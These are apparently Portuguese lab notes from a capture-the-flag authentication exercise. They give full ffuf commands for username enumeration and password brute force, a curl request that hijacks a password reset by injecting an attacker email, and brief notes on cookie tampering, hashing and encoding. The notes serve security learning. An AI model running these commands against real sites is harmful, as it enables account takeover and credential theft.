








## Username Enumeration

---

Procurar erros em um site são bons recursos para reunir informações,





```
ffuf -w /usr/share/wordlists/seclists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.108.88/customers/signup -mr "username already exists"
```

- **-w** diz a word lista usada
- **-X** diz o metodo
- **-d** diz o exemplo usado para o corpo da requisição
- **-H** diz os headers da requisição
- **-mr** é o texto na página que procuramos para validar que encontramos um nome de usuário válido.

## Brute Force

---

Com a lista de usuarios validos vamos rodar um brute force.

```
ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.205.200/customers/login -fc 200
```



Conseguimos a credencial steve:thunder

## Logic Flaw

---

Falhas lógicas acontecem quando um hacker consegue subverter um fluxo dentro de um sistema, por exemplo, pular a etapa de pagamento em um e-commerce e ir direto para pagina de entrega.

No recurso /customers/reset temos uma função que pode resetar a senha de um usuario.

- **FLUXO 200**





- **FLUXO ERRO**




O site foi feito com PHP e na sua logica foi utilizando a $\_REQUEST, ela é uma variável global que contem os dados dos formularios e cookies.

Acontece que podemos sobrecresver o parametro email injetando no corpo da requisição.

```
curl 'http://10.10.237.209/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email=attacker@hacker.com'
```


## Cookie Tampering

---

Examinando e editando os cookies podemos obter sessões e acessos não autenticados eles podem estar setados de diferentes tipos como:

- **Plain Text**


A forma mais insegura, mas ainda sim usada, podemos ter cookies guardados em texto limpo.


Deixando em texto limpo, basta alterar o input e esperar a flag.

## Hashing

---

Tb podemos guardar os valores em hash, eles tem uma aparencia de caracteres aleatorios e não podem ser revertidos, sendo assim impossível saber o conteudo original.


## Encoding

---

Tb podemos encodar os dados, ATENÇÃO apesar de parecer aleatório a codificação é reversível por tanto cuidado onde vai usar, o objetivo da codificação é para a transferencia mais eficiente de dados e não uma forma de criptografia de dados.
